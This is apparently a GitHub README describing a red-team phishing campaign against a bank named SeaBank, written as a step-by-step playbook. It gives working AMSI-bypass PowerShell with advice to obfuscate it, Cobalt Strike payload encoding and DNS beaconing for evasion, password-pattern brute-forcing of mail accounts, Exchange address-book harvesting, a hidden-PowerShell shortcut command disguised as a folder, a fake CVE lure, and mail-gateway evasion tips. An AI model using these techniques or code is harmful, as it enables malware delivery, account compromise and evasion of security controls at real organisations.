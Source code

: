 <h1 align="center">🎣 My Phishing Case - SeaBank 🎣</h1>

## I.Create Malware - Simple CobaltStrike-Agent Runner
1. Encode the Payload

The original payload will use the default Cobalt Strike payload in .ps1 format.
Use "Windows Stageless Payload" to reduce detection chances and utilize DNS beaconing to evade outbound TCP connection blocks on the target system.
Then, use "encode.ps1" with the generated payload to obtain a Base64-encoded output.
Copy this output and replace it in "decode.ps1", which will be responsible for decoding and executing the Cobalt Strike payload.
The format of decode.ps1 will be as follows:
<p align="center">
  <img src="https://github.com/user-attachments/assets/c6b7d3a5-190b-4bca-a9ba-f1a4bfb03e65">
</p>

2. Bypass Defender

Regarding the bypass method, since the entire execution process relies on PowerShell, using existing AMSI bypass repositories is sufficient.Recon and information gathering on the target’s antivirus (AV) software is crucial because some bypass techniques only work on specific AVs. Additionally, once a bypass technique is used, it may be blacklisted, so modifying the bypass script (e.g., using string concatenation or encryption) is necessary for each attack.In this campaign, Red Team customized the AmsiScanBuffer bypass method from Rasta-Mouse to evade AV detection. The original AMSI bypass code is as follows:
```
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll") #-----------Modify this------------------
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer") #-----------Modify this------------------
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p) #-----------Modify this------------------
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3) #-----------Modify this------------------
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
The above patch needs to have its string values and byte sequences obfuscated to avoid detection by signature-based security measures.
## II. Reconnaissance to Create a Target List
1. ruler-linux64
   
In every phishing campaign, from my perspective, if a hacker gains access to any internal email account of a user, the success rate of the campaign is almost absolute. Once they obtain an account, the preparation of the script will be based on the role, department, and position of the user whose account has been compromised. This allows the attacker to target a limited number of users related to the controlled account (avoiding a large scope to prevent triggering alerts).

So first, we will prioritize searching for valid internal accounts. We can use powerful search engines like Intelx or ruler-linux64, combined with common password formats such as "<Company_name>@123", "<Company_name>@1234", "<Company_name>@2024", etc., to perform brute-force attacks.

In this case, I found only one system account with an information notification function—excellent! The power of this account is extremely significant. However, there is a problem: such accounts usually do not have any directly related departments or users. Therefore, selecting a target and preparing the scenario must still be done on a sufficiently large scope.(Later, we were still detected by alerts, but by then, we had enough time to establish a tunnel and a new command-and-control channel.Nice try, but I still feel sorry for the SOC team😆)

2. exchanger.py

Creating a target list requires a valid account on the target's Mail Exchange server. This can be done using the "exchanger.py" tool from the Impacket toolkit:
```
python3 exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
The extracted email list will include email addresses, departments, and job titles of all users. This list can be used to compile a target list.

A custom Python script can be created to filter users based on the "title" field. This allows for a more focused attack on a specific department, which reduces scope and increases success rates:

<p align="center">
  <img src="https://github.com/user-attachments/assets/016f7dff-c28e-4a6c-afc9-59c53b0b636a">
</p>

## III. Weaponization
To increase the success rate, the payload-containing attachment will be sent as a ZIP file. This prevents the file format from being immediately visible when the recipient reads the email.

Additionally, the PowerShell script responsible for executing the payload should be hidden from the user's interface by setting its "Hidden Item" attribute:
![image](https://github.com/user-attachments/assets/8e49219f-8bc8-4e00-9915-a582d99b15b9)
Additionally, create a LINK SHORTCUT file in the payload directory to trigger the payload, with the "target" configured as follows:
```
C:\Windows\System32\cmd.exe /c "set STR1=power&& cmd.exe /c %STR1%shell -WindowStyle hidden -exec bypass Import-Module .\Thong_tin_cve\Thong_tin_chi_tiet.ps1
```

<p align="center">
  <img src="https://github.com/user-attachments/assets/f77cc8bb-af2d-42e3-803e-7e8cd288dbe1">
</p>

This shortcut file will call the PowerShell.exe process of the operating system and execute the hidden payload located in the "Thong_tin_cve" folder.

The goal is to trick the user into clicking the shortcut file. To increase the click-through rate, the shortcut icon should be changed to resemble a folder icon (this can be done via the "Change Icon" option).

The folder name, file name, email content, and attached document should be customized according to the selected attack scenario.

In this case, the Red Team is using a fake security advisory about a new Exchange CVE that could lead to personal data leaks. Therefore, all naming conventions (folder, files, email, and attached document) will align with this phishing scenario.

Here is the full-chain of payload:
<p align="center">
  <img src="https://github.com/user-attachments/assets/aa13078f-aac5-4800-9621-67001abd36be">
</p>

## IV. Drop the BOMBS
After completing the setup and weaponization, the final step is to send an email with the attached file to the predefined target list with the following content:

<p align="center">
  <img src="https://github.com/user-attachments/assets/f248c44d-d27f-457b-8f56-05059cdd6500">
</p>

=>And now, just sit back and wait for the targets to take the bait.
<p align="center">
  <img src="https://github.com/user-attachments/assets/c757c30b-c57c-4f4f-b875-5957b517de10">
</p>
<p align="center">
😈Mission accomplished!😈
</p>

## V. Analysis of Strengths and Weaknesses
1. Strengths

✅This technique is extremely easy to implement, has a high success rate, and works well on both EDR and Kaspersky AV.

✅High flexibility and reusability due to using PowerShell as the main platform.

2. Weaknesses

❌Since the technique relies on PowerShell as the main platform, it will not work on Domains or Forests that have a "Disable PowerShell" policy in place. (However, there are ways to bypass such policies—we will discuss this in a separate topic later.)

❌And, of course, the common weakness of all phishing-based malware drop techniques: Mail Gateway. If the Mail Gateway blocks one of the formats we use (even after compression), the malware delivery to the user will not happen. However, this issue can be mitigated by compressing the entire payload and setting a password before sending it. This approach makes preparation more challenging and reduces the success rate, but it helps evade Mail Gateway detection. (Therefore, leveraging new executable formats will open up more possibilities.)







